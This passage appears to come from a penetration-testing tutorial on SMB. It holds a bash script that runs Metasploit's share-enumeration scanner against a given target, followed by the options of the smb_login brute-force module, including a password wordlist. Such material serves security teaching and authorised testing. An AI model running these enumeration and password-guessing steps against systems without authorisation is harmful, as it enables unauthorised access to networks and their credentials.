 ### Comprehensive Share Discovery Script

```bash
#!/bin/bash

TARGET=$1
OUTPUT_FILE="smb_shares_$(date +%Y%m%d_%H%M%S).txt"

echo "[*] Enumerating SMB shares on $TARGET"

msfconsole -q -x "
workspace -a share_enum;
setg RHOSTS $TARGET;
use auxiliary/scanner/smb/smb_enumshares;
set ShowFiles true;
run;
exit" > $OUTPUT_FILE

echo "[+] Results saved to $OUTPUT_FILE"
cat $OUTPUT_FILE
```

## SMB Brute Force Attacks

### SMB Login Scanner

```bash
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting                      Required  Description
   ----               ---------------                      --------  -----------
   BLANK_PASSWORDS    false                                no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                                    yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false                                no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false                                no        Add all passwords in the current database to the list
   DB_ALL_USERS       false                                no        Add all users in the current database to the list
   PASSWORD                                               no        A specific password to authenticate with
   PASS_FILE          /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  no        File containing passwords, one per line
   RHOSTS                                                 yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445                                 yes       The target port (TCP)
   SMBDomain          .                                    no        The Windows domain to use for authentication
   SMBPass                                                no        The password for the specified username
   SMBUser                                                no        The username to authenticate as
   STOP_ON_SUCCESS    false                                yes       Stop guessing when a credential works for a host
   THREADS            1                                   yes       The number of concurrent threads per host
   USERPASS_FILE                                        no        File containing users and passwords separated by space, one pair per line
```